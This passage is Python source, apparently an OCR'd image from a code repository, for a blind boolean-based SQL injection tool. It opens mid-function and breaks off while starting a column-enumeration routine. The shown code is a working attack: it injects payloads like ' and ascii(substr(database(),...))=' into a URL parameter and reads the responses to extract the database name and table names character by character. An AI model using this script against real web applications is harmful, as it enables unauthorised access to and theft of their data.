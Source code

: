 ```python
    while(i<databaselen+1):
        j=0
        while(j<max):
            addcode=" and ascii(substr(database(),"+str(i)+",1))="+str(j)+" --+"
            r=requests.get(url,params=code+addcode)
            if(re.search(right,r.text)):
                databasename+=chr(j)
                break
            j+=1
        i+=1

    return databasename

def GetTable(code,url,right,databasename):
    tablelist=[]
    tablefin=0
    basefin=0

    i=1
    j=1
    i=0
    while(1):
        tablename=""
        j=1
        while(1):
            k=0
            while(k<128):
                addcode=" and ascii(substr((select table_name from information_schema.tables where table_schema='"+databasename+"' limit "+str(i)+",1),"+str(j)+",1))="+str(k)+" --+"
                r=requests.get(url,code+addcode)
                if(re.search(right,r.text)):
                    if(k==0 and j==1):
                        basefin=1
                        break
                    elif(k==0):
                        tablefin=1
                        break
                    else:
                        tablename+=chr(k)
                        break
                k+=1
            if(k==128):
                basefin=1
                break
            j+=1
            if(tablefin==1):
                tablefin=0
                break
            if(basefin==1):
                break
        if(basefin==1):
            break
        i+=1
        tablelist.append(tablename)
    return tablelist

def GetColumn(code,url,right,tablename):
    columnlist=[]
    tablefin=0
    columnfin=0
    i=0
    while(1):
        columnname=""
```